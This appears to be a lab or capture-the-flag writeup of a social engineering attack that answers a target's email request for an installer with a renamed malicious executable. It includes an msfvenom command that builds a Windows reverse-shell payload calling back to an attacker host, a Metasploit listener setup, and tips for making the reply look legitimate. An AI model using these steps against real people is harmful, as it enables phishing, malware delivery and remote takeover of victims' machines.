 # Social Engineering Attack: Malicious Executable Delivery

## Overview

This writeup details a successful social engineering attack where we leveraged access to an email portal to deliver a malicious executable to the target. By responding to a legitimate software request with a weaponized executable, we were able to establish a reverse shell connection to the target system.

## Tools Used

- Metasploit Framework
- msfvenom (payload generation)
- msfconsole (handler for reverse shell)
- Email client

## Attack Methodology

### 1. Initial Access and Reconnaissance

- Gained access to the target's email portal using provided credentials
- Performed reconnaissance by examining the inbox contents
- Identified a critical email where the target was requesting an installer for software in .exe format for Windows x64

### 2. Payload Creation

Based on the target's request, we crafted a malicious executable:

- Used msfvenom to generate a malicious Windows executable with a TCP reverse shell payload
  ```
  msfvenom -p windows/shell_reverse_tcp LHOST=<attacker_ip> LPORT=<port> -f exe > softwarename.exe
  ```
- Initially attempted to create a meterpreter payload, but observed it would close immediately after execution
- Opted for a standard TCP reverse shell for better stability

### 3. Listener Configuration

- Set up a listener on the attacking machine to receive the incoming connection:
  ```
  use multi/handler
  set payload windows/shell_reverse_tcp
  set LHOST <attacker_ip>
  set LPORT <port>
  exploit -j
  ```

### 4. Payload Delivery

- Carefully renamed the malicious executable to match the requested software name
- Composed a reply email to the target with the malicious executable attached
- Ensured the email appeared legitimate and matched the expected software request

### 5. Command and Control

- Monitored the listener for incoming connections
- Successfully received a reverse shell connection when the target executed the malicious file
- Established command and control over the target system

## Conclusion

This attack demonstrates the effectiveness of social engineering when combined with technical exploitation. By responding to a legitimate request with a malicious file, we were able to bypass the human security layer and gain access to the target system. The key success factors were identifying the legitimate software request and crafting a convincing response that appeared to fulfill that request.
